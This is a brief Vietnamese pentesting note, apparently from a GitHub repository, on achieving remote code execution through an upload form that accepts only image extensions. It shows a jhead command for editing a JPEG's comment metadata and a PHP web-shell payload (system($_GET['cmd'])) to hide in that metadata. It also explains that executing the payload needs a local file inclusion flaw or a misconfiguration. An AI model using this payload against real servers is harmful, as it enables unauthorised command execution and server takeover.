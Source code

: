 # RCE khi upload file chỉ cho phép image extension
**References**: https://onestepcode.com/injecting-php-code-to-jpg/

1. Inject php code vào meta information của image, save as image.jpg

```bash
jhead -ce file.jpg # The -ce option of jhead will launch a text editor to edit the comment section of the metadata.
# <?php system($_GET['cmd']); __halt_compiler(); ?>
```

2. Khi đọc file thì tất nhiên php code sẽ không được executed bởi file này được xem là jpg. Ở đây cần lợi dụng thêm lỗ hổng nào đó như LFI  để include file này hoặc dựa vào missconfiguration,...
